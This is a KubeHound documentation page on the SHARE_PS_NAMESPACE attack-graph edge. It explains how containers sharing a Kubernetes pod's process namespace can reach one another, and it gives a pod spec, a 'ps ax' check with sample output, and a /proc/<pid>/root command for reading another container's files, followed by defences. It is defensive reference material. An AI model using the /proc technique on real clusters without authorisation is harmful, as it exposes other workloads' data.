 ```yaml
---
title: SHARE_PS_NAMESPACE
---
```


<!--
id: SHARE_PS_NAMESPACE
TODO: phrase as an attack
name: "Access container in shared process namespace"
mitreAttackTechnique: N/A - N/A
mitreAttackTactic: TA0008 - Lateral Movement
-->

# SHARE_PS_NAMESPACE

| Source                      | Destination                           | MITRE                            |
| --------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Container](../entities/container.md) | [Lateral Movement, TA0008](https://attack.mitre.org/tactics/TA0008/) |

Represents a relationship between containers within the same pod that share a process namespace. 

## Details

Pods represent one or more containers with shared storage and network resources. Optionally, containers within the same pod can elect to share a process namespace with a flag in the pod spec.

## Prerequisites

Access to a container within a pod running other containers with shared process namespaces

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setuptest-cluster/attacks/share_ps_namespace.yaml).

## Checks

Consider the following spec, with two containers sharing a process namespace:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  shareProcessNamespace: true
  containers:
  - name: nginx
    image: nginx
  - name: shell
    image: busybox:1.28
    securityContext:
      capabilities:
        add:
        - SYS_PTRACE
    stdin: true
    tty: true
```

From within the shell container, simply run:

```bash
ps ax
```

Without namespace sharing, no outside processes would be visible. However, with this specification we would expect an output similar to the below where the nginx processes from the other container are visible:

```bash
PID   USER     TIME  COMMAND
    1 root      0:00 /pause
    8 root      0:00 nginx: master process nginx -g daemon off;
   14 101       0:00 nginx: worker process
   15 root      0:00 sh
   21 root      0:00 ps ax
```

## Exploitation

Various options are possible here based on the attacker end goal. Ultimately it is possible to gain full control of other containers within the shared namespace. The easiest vector is to directly access the filesystem of the other container using the `/proc/$pid/root` link. Sticking with the previous example, running the below should display the contents of the nginx config file:

```bash
# run this inside the "shell" container
# change "8" to the PID of the Nginx process, if necessary
head /proc/8/root/etc/nginx/nginx.conf
```

## Defences

### Defence in depth

Prevent the use of shared namespaces in pods, where containers have different risk profiles. Ideally these types of containers should be run within separate pods.

## Calculation

+ [SharedPsNamespace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/SHARE_PS_NAMESPACE.go)

## References:

+ [Kubernetes API Reference Docs](https://kubernetes.io/docs/tasks/configure-pod-container/share-process-namespace/)
  